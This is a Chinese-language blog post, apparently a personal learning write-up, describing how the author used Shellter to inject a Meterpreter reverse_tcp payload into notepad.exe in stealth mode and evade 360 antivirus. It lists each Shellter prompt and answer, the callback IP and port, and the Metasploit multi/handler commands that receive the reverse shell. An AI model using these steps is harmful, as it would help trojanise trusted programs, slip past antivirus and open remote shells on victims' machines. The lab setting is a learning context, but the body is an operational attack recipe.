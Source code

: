 ```yaml
---
layout:     post
title:      记一次使用Shellter做免杀过360过程
subtitle:   免杀入门学习
date:       2018-11-12
author:     蓝胖
header-img: img/post-bg-2018-11-12.jpg
catalog: true
tags:
    - 免杀
    - Shellter



---
```


>“如果每个人都理解你，你得普通成什么样”


 > Shellter是一个开源的免杀工具，利用动态Shellcode注入来实现免杀的效果。好神奇阿，有空可以详细研究研究

# 环境及工具：
KALI	192.168.117.131
目标		192.168.117.1

[Shellter](https://www.shellterproject.com/download/)
[![iLE1A0.md.jpg](https://s1.ax1x.com/2018/11/12/iLE1A0.md.jpg)](https://imgchr.com/i/iLE1A0)

[notepad](https://notepad-plus-plus.org/download/v7.5.9.html)
[![iLEMBn.md.png](https://s1.ax1x.com/2018/11/12/iLEMBn.md.png)](https://imgchr.com/i/iLEMBn)

# 进行免杀
下载Shellter，进入目录输入：`wine shellter.exe` 运行。第一次运行比较慢，去嘘嘘活动下。出现如下界面代表运行成功。 
[![iLEnXj.md.jpg](https://s1.ax1x.com/2018/11/12/iLEnXj.md.jpg)](https://imgchr.com/i/iLEnXj)
我第一次用的时候提示我没有装 wine，按照提示 apt-get wine就行。
提示下：如果半天没有反应，按下回车就行了

**Choose Operation Mode - Auto/Manual (A/M/H): A**  
模式选择，选手动模式 A 
A 自动添加后门、M 高级用法、H 帮助

**PE Target: /root/Desktop/notepad.exe**
需要加包的路径+名称
[![iLEQ7q.md.png](https://s1.ax1x.com/2018/11/12/iLEQ7q.md.png)](https://imgchr.com/i/iLEQ7q)


**Enable Stealth Mode? (Y/N/H): Y**   
是否启用隐身模式，启用 Y
[![iLEZ9S.md.jpg](https://s1.ax1x.com/2018/11/12/iLEZ9S.md.jpg)](https://imgchr.com/i/iLEZ9S)

**Use a listed payload or custom? (L/C/H): L**
使用攻击模块列表或者自定义？ 

**Select payload by index: 1**

**SET LHOST: 192.168.117.131**
设置接收反弹的IP

**SET LPORT: 8088**
设置接收反弹的端口

[![iLEEh8.md.jpg](https://s1.ax1x.com/2018/11/12/iLEEh8.md.jpg)](https://imgchr.com/i/iLEEh8)
[![iLEe1g.md.jpg](https://s1.ax1x.com/2018/11/12/iLEe1g.md.jpg)](https://imgchr.com/i/iLEe1g)

# 设置监听
进入MSF控制台输入如下
`use exploit/multi/handler`
`set payload windows/meterpreter/reverse_tcp`
`set lhost 192.168.117.131`
`set lport 8088`
`exploit`
[![iLEmcQ.md.jpg](https://s1.ax1x.com/2018/11/12/iLEmcQ.md.jpg)](https://imgchr.com/i/iLEmcQ)
360杀毒截图,腾讯管家也行，朋友电脑没有截图
[![iLEKns.md.jpg](https://s1.ax1x.com/2018/11/12/iLEKns.md.jpg)](https://imgchr.com/i/iLEKns)

